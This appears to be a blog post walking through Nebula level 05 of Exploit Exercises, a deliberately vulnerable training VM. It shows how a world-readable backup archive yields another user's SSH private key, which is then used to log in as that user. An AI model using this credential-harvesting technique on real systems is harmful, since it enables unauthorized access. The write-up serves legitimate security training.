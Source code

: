 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 05"
date: 2014-01-13 14:16:44 +0800
comments: true
categories: Security, Exercises, Nebula
---
```


### About

Check the *flag05* home directory. You are looking for weak directory permissions

To do this level, log in as the *level05* account with the password *level05* . Files for this level can be found in /home/flag05.

<!-- more -->

### Solution

Copy the file */home/flag05/.backup/backup-19072011.tgz* in to home directory of *level05*.

extract it

``` bash
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

So this should be the id key of user *flag05*, try to use `ssh` to login with user *flag05* without a password, and it successed.

``` bash
level05@nebula:~$ ssh flag05@localhost

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$
```
